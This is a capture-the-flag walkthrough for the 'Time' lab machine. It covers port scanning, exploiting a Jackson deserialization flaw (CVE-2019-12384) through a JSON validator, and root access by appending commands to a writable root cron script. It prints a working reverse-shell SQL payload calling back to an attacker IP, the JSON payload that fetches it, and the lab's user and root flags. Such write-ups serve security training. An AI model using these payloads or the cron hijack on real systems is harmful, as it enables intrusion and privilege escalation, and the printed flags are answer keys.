 # Time

Machine IP:  10.10.10.214 

## Initial enumeration

Quick scan: `nmap -sC -sV 10.10.10.214`

```s
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The response returned 

Comprehensive scan on all ports: `nmap -sC -sV -p- 10.10.10.214`

Dirbuster report: The host rejected a lot of requests after a while.

## Port 80

After a lot of things tried, it didn't work out. I was possibly in the right direction trying to inject things through JSON but here's the catch: why was I giving correct/good input? Applications break on bad inputs, not on good ones. Developers forget to consider bad inputs or edge test cases, they are your go-to.

```s
Input to Validator(beta)

a

Output: Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'a': was expecting ('true', 'false' or 'null')
```

A points about this:

- Java backend (evident by now)

- The validator is expecting boolean fields (true, false, or null).

- class information is being exposed.

- Look at this: https://github.com/jas502n/CVE-2019-12384

```s
Input to validator(beta)

{"name":"testname","age":12}

Output
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

[**MismatchedInputException**](https://fasterxml.github.io/jackson-databind/javadoc/2.9/com/fasterxml/jackson/databind/exc/MismatchedInputException.html): The input is not mapping to target definition. From this [stackoverflow](https://stackoverflow.com/questions/49822202/com-fasterxml-jackson-databind-exc-mismatchedinputexception-unexpected-token-s) thread, it is clear that this is expecting a JSON array instead of an object.



## Final Foothold

- Clone https://github.com/jas502n/CVE-2019-12384.git that takes advantage of deserialization vulnerability in Jackson.

- The `inject.sql` is modified as:

```s
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('setsid bash -i &>/dev/tcp/10.10.14.137/12345 0>&1 &')
```

Or `setsid` is used to communicate the output to IP `10.10.14.137` at port `12345`.

- Host the content (`python -m SimpleHTTPServer`).

- Open a listener on port `12345` (`nc -lnv -p 12345`)

- Input this to Validate (beta!) on the website:

```s

[
    "ch.qos.logback.core.db.DriverManagerConnectionSource",
    {
        "url": "jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http:\/\/10.10.14.137:8000\/inject.sql'"
    }
]
```

So we pick `inject.sql` from port 8000 server and serve the shell to port `12345` using `setsid` in `inject.sql`. An initial shell is received at port `12345`.


## User flag

The initial shell is of `pericles@time` in `/var/www/html`. The first thing is to upgrade the shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

User flag: `7f971b636867f38faf2a1cbc65a01029` to be found in `/home/pericles`. The thing to note is `HOME` is not set so `cd ` doesn't really work.


## Enumeration

- The user `pericles` has a certain `snap` which has `lxd` (which has an exploit somewhere I remember). In `/home/pericles/snap/lxd/17886/.config/lxc/`, there be a `config.yml` that goes as follows:

```s
default-remote: local
remotes:
  images:
    addr: https://images.linuxcontainers.org
    protocol: simplestreams
    public: true
  local:
    addr: unix://
    public: false
aliases: {}
```
Also, another directory `/home/pericles/snap/lxd/17936/.config/lxc/` also has the same thing. And there is another link `current->17936` in `snap` itself that points to the directory `17936`.


- Also, in `/`, there's another `snap` directory. Snap is a package manager.

- `srv` is in `/` is an empty directory and `swap.img` is a very big file and probably the swap space. 

- `test1` is a file, and of 0 bytes.

- `snap version` > 2.37.1 (exactly 2.47.1) and thus dirty-sock exploit will not work in this case.

There's a certain writable file `timer_backup.sh` belonging to the user `pericles` in `/usr/bin/`:

```
#!/bin/bash
/usr/bin/chown root.root /tmp/.../root.sh 
/usr/bin/chmod 4777  /tmp/.../root.sh

zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

And after a while back, this changed to:

```
#!/bin/bash
/usr/bin/chown root.root /tmp/.../m
/usr/bin/chmod 4755  /tmp/.../m
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

I think I observed another user doing stuff. Thus, this is the real script in my opinion.

```
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
Let us assume some cron job is doing things here, that's what we will try.

## Root flag

Create a file `things.sh` in `/home/pericles` with `cat /root/root.txt > /home/pericles/flag.txt`. Now `echo "sh /home/pericles/things.sh" >> /usr/bin/timer_backup.sh`. Wait a while and the cron job executes this script and there will be a `flag.txt` in `/home/pericles` with the root flag.

Root flag: `20ab60d48cfcb908c96175daed36b121`

## Privilege escalation

One thing is to write everything inside a script and make that run by the cron job running the timer. You can try to do things like `/bin/bash -i` inside the script and let the cron job run it as root.

